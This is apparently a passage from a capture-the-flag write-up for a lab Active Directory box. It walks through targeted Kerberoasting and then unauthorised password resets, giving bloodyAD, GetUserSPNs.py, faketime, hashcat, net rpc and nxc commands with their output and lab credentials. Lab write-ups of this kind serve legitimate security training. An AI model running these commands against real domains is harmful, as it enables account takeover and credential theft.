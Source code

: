 ```console
$ bloodyAD --host 10.10.11.42 -d administrator.htb -u 'olivia' -p 'ichliebedich' set object michael servicePrincipalName -v 'fake/dc.administrator.htb'
[+] michael's servicePrincipalName has been updated
$ GetUserSPNs.py -dc-ip 10.10.11.42 'administrator.htb/olivia:ichliebedich' -request-user michael

ServicePrincipalName       Name     MemberOf                                                       PasswordLastSet             LastLogon  Delegation 
-------------------------  -------  -------------------------------------------------------------  --------------------------  ---------  ----------
fake/dc.administrator.htb  michael  CN=Remote Management Users,CN=Builtin,DC=administrator,DC=htb  2024-10-06 03:33:37.049043  <never>               


[-] CCache file is not found. Skipping...
[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

### Fixing Clock Skew

If you get a `Clock skew too great` error just like me, just run this command that spawns a bash shell with the clock synced to the DC:
```console
$ faketime "$(ntpdate -q administrator.htb | cut -d ' ' -f 1,2)" bash
```

So now we can get the hash, copy it to a file and run hashcat to crack it.

```console
$ GetUserSPNs.py -dc-ip 10.10.11.42 'administrator.htb/olivia:ichliebedich' -request-user michael
$ hashcat -m 13100 michael.hash $ROCkYOU
```

However, we are not able to crack the hash so let's proceed with the second method and reset the password for the user account. I will also immediately reset the account for Benjamin and check what access we have. From Linux we can use the `net rpc` command.

```console
$ net rpc password "michael" "newP@ssword2022" -U "administrator.htb"/"olivia"%"ichliebedich" -S "10.10.11.42"
$ net rpc password "benjamin" "newP@ssword2022" -U "administrator.htb"/"michael"%"newP@ssword2022" -S "10.10.11.42"
$ nxc smb 10.10.11.42 -u 'benjamin' -p 'newP@ssword2022' --shares

SMB         10.10.11.42     445    DC               Share           Permissions     Remark
SMB         10.10.11.42     445    DC               -----           -----------     ------
SMB         10.10.11.42     445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.42     445    DC               C$                              Default share
SMB         10.10.11.42     445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.42     445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.11.42     445    DC               SYSVOL          READ            Logon server share
```
